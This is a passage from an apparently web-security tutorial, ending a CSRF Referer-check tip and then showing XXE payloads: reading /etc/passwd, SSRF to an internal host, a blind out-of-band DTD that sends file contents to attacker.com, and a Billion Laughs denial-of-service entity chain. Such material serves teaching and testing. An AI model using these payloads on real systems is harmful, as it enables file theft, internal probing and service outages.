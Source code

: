 **3. Check Referer Header:**
```php
if (!str_starts_with($_SERVER['HTTP_REFERER'], 'https://yoursite.com/')) {
    die('Invalid request');
}
```

## 🔀 XXE (XML External Entity)

### What is XXE?
XML External Entity attacks exploit vulnerable XML parsers that process external entity references.

### Attack Examples

**Basic XXE (File Disclosure):**
```xml
<?xml version="1.0"?>
<!DOCTYPE foo [
  <!ELEMENT foo ANY>
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<foo>&xxe;</foo>
```

**XXE to SSRF:**
```xml
<?xml version="1.0"?>
<!DOCTYPE foo [
  <!ELEMENT foo ANY>
  <!ENTITY xxe SYSTEM "http://internal-server/admin">
]>
<foo>&xxe;</foo>
```

**Blind XXE (Out-of-Band):**
```xml
<?xml version="1.0"?>
<!DOCTYPE foo [
  <!ELEMENT foo ANY>
  <!ENTITY % xxe SYSTEM "http://attacker.com/evil.dtd">
  %xxe;
]>
<foo>&exfil;</foo>
```

**evil.dtd:**
```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://attacker.com/?data=%file;'>">
%eval;
%exfil;
```

**Billion Laughs (DoS):**
```xml
<?xml version="1.0"?>
<!DOCTYPE lolz [
  <!ENTITY lol "lol">
  <!ENTITY lol2 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
  <!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;">
  <!ENTITY lol4 "&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;">
]>
<lolz>&lol4;</lolz>
```

